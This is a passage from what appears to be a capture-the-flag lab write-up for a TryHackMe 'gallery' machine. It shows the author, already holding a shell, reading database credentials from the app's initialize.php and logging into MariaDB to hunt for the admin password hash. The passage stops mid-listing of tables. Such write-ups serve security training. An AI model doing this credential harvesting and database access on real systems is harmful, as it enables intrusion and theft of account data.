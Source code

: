 ![persistent-shell.png](/assets/THM-gallery/persistent-shell.png)

We can explore the gallery app’s codebase (everything under `/var/www/html/gallery/`) to find database credentials. They are located in `initialize.php`: 
```php
<?php
$dev_data = array('id'=>'-1','firstname'=>'Developer','lastname'=>'','username'=>'dev_oretnom','password'=>'REDACTED','last_login'=>'','date_updated'=>'','date_added'=>'');

if(!defined('base_url')) define('base_url',"http://" . $_SERVER['SERVER_ADDR'] . "/gallery/");
if(!defined('base_app')) define('base_app', str_replace('\\','/',__DIR__).'/' );
if(!defined('dev_data')) define('dev_data',$dev_data);
if(!defined('DB_SERVER')) define('DB_SERVER',"localhost");
if(!defined('DB_USERNAME')) define('DB_USERNAME',"gallery_user");
if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"REDACTED");
if(!defined('DB_NAME')) define('DB_NAME',"gallery_db");
?> 
```

And now we have all the info we need to connect to the database and search for the admin user’s password hash.
```bash
www-data@gallery:/var/www/html/gallery$ mysql -u gallery_user -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 225
Server version: 10.1.48-MariaDB-0ubuntu0.18.04.1 Ubuntu 18.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| gallery_db         |
| information_schema |
+--------------------+
2 rows in set (0.00 sec)

MariaDB [(none)]> use gallery_db;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [gallery_db]> show tables;
+----------------------+
| Tables_in_gallery_db |
+----------------------+
| album_list           |
```